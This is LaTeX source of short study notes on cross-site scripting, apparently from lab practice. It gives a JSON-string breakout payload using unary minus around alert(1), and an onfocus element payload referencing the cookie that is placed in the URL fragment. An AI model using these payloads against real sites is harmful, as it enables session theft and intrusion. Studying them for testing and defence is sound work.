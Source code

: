 \documentclass{article}
\begin{document}
\begin{itemize}
      so your payload must have an operator like - + | 
            \begin{lstlisting}[frame=single]
                    "-alert(1)}//
            \end{lstlisting}
      After processing, the code might look like:
            \begin{lstlisting}[frame=single]
                  {"results": ""-alert(1)}//"}
            \end{lstlisting}
      "" (empty string) gets converted to number 0 , alert() returns undefined and The unary minus tries to do: 0 - undefined but at the end This results in NaN (Not a Number), but the alert already executed\\
   \rule{5cm}{0.4pt}   
      \item the iframe tag is so powerful in real world exploitations \\ \rule{5cm}{0.4pt}
      \item some payloads you have to but it in the url directly not the searchbox like
            \begin{lstlisting}[frame=single]
            <xss id="x" onfocus=alert(Document.cookie) tabindex=1>#x
            \end{lstlisting}
            the searchbox will encode the \#x so it will not trigger the element with the id="x" so we put it directly in the URL\\ \rule{5cm}{0.4pt}
            

\end{itemize}
\end{document}
